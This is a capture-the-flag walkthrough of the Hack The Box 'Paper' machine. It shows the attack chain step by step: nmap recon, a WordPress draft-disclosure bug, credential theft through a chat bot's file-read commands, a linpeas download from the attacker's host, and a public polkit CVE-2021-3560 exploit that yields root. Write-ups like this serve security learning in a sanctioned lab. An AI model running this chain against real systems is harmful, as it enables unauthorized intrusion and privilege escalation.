








## Using nmap, scan this machine. What ports are open?

```bash
┌──(defalt@kali)-[~/Documents/htb/paper]
└─$ nmap -sC -sV -o nmap 10.10.11.143 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-10 02:46 PDT
Nmap scan report for 10.10.11.143
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.97 seconds
```
Nmap result shows that SSH , SSL and Apache are available on their default ports. Let's take look at webpage. Maybe we can find something.

## Website port 80


## Looking for X-backend
I didn't find anything useful on website.Let's try to find backend server. For that we using curl with location flag (-L) for see which route our website take.
```bash
┌──(defalt@kali)-[~/Documents/htb/paper]
└─$ curl -I  10.10.11.143 
HTTP/1.1 403 Forbidden
Date: Sun, 10 Apr 2022 10:12:04 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Content-Type: text/html; charset=UTF-8
```
Looks like we got our self a winner. We found our backend server **office.paper**. Let's add it **/etc/hosts** file.

## Blunder Tiffin Paper Company
When we got to **office.paper** we can see this website.



When we scroll down a bit we can see a comment(hint) on one of post.



## Analyze with Wappalyzer

Wappalyzer reveals website running on wordpress 5.2.3. Let's try to run wpscan.

```bash
+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
 | Found By: Rss Generator (Passive Detection)
 |  - http://office.paper/index.php/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |  - http://office.paper/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
```
Wpscan results shows this version is vurnerable. So let's go to google and search about this after while I found this site.

https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2

So it has a vulnerability could allow an unauthenticated user to view private or draft posts due to an issue within WP_Query. Let's try it.


After reading a draft we can see secret registeration url and another server called **chat.office.paper**. Let's add it to **/etc/hosts/** and click the link. When we click the link we can see new user registeration site.



After register and log with your new account. If you surf the webpage You will find a general Chat .When you scroll up You will find that **DwightKSchrute** is the admin and he added a Bot named **Recyclops** .You will also find out that You cannot Type in the General Chat But you can Direct Message the **Bot Recyclops**. When I Type **Recyclops Help** it gives me set of instructions.



The Instructions state that we can ask the Recyclops Bot A file , to List files and many more. Which was a Interesting! , So I tried to get User.txt Using The Recyclops Bot But was Unsuccessful Because It Says Access denied. 


After messing around I reach the jackpot. When you got **hubot dir** you can see some of interesting files.



When you try to look into **.env** file. you can get the password to **dwight** account.



## Login to user **dwight**
When we log into **dwight** acc we can get a user flag.
```bash
┌──(defalt@kali)-[~/Documents/htb/paper]
└─$ sudo ssh dwight@10.10.11.143
[sudo] password for defalt: 
The authenticity of host '10.10.11.143 (10.10.11.143)' can't be established.
ED25519 key fingerprint is SHA256:9utZz963ewD/13oc9IYzRXf6sUEX4xOe/iUaMPTFInQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.143' (ED25519) to the list of known hosts.
dwight@10.10.11.143's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Sun Apr 10 06:45:11 EDT 2022 from 10.10.15.15 on ssh:notty
There was 1 failed login attempt since the last successful login.
Last login: Sun Apr 10 06:45:08 2022 from 10.10.14.57
[dwight@paper ~]$ ls -la
total 68
drwx------  11 dwight dwight 4096 Apr 10 06:47 .
drwxr-xr-x.  3 root   root     20 Apr 10 06:42 ..
lrwxrwxrwx   1 dwight dwight    9 Jul  3  2021 .bash_history -> /dev/null
-rw-r--r--   1 dwight dwight   18 May 10  2019 .bash_logout
-rw-r--r--   1 dwight dwight  141 May 10  2019 .bash_profile
-rw-r--r--   1 dwight dwight  358 Jul  3  2021 .bashrc
-rwxr-xr-x   1 dwight dwight 1174 Sep 16  2021 bot_restart.sh
drwx------   5 dwight dwight   56 Jul  3  2021 .config
-rw-------   1 dwight dwight    9 Apr  9 23:08 .dbshell
-rw-------   1 dwight dwight   16 Jul  3  2021 .esd_auth
-rw-rw-r--   1 dwight dwight 5512 Apr  9 23:32 exploit.c
-rwxrwxr-x   1 dwight dwight 9617 Apr  9 23:35 file.sh
drwx------   3 dwight dwight   69 Apr  9 23:08 .gnupg
drwx------   8 dwight dwight 4096 Sep 16  2021 hubot
-rw-rw-r--   1 dwight dwight   18 Sep 16  2021 .hubot_history
drwx------   3 dwight dwight   19 Jul  3  2021 .local
drwxr-xr-x   4 dwight dwight   39 Jul  3  2021 .mozilla
drwxrwxr-x   5 dwight dwight   83 Jul  3  2021 .npm
-rw-------   1 dwight dwight    7 Apr 10 06:47 .python_history
drwxr-xr-x   4 dwight dwight   32 Jul  3  2021 sales
drwx------   2 dwight dwight    6 Sep 16  2021 .ssh
-r--------   1 dwight dwight   33 Apr  9 22:47 user.txt
drwxr-xr-x   2 dwight dwight   24 Sep 16  2021 .vim
```
## Let's run linpeas to see what is our machine upto

First start a web server on our machine. **python3 -m http.server** and download it to victims machine.

```bash
[dwight@paper ~]$ wget 10.10.14.53:8000/linpeas.sh
--2022-04-10 06:58:08--  http://10.10.14.53:8000/linpeas.sh
Connecting to 10.10.14.53:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134168 (131K) [text/x-sh]
Saving to: ‘linpeas.sh.1’

linpeas.sh.1            100%[=============================>] 131.02K   266KB/s    in 0.5s    

2022-04-10 06:58:09 (266 KB/s) - ‘linpeas.sh.1’ saved [134168/134168]

[dwight@paper ~]$ bash linpeas.sh
````
* Linpeas results :


Our linpeas result shows this machine vureable to polkit exploit(CVE-2021-3560).

## Polkit exploit

I'm using this script to exploit our machine.

https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py

After few tries I got the root access. GG!

```bash
[dwight@paper ~]$ python3 poc.py
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse 
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit 
[+] User Created with the name of ahmed
[+] Timed out at: 0.006675333958235134
[+] Timed out at: 0.008788664949069335
[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

bash: cannot set terminal process group (5125): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper dwight]#
[root@paper ~]# whoami
root
```
Thx for reading !! Have a nice day.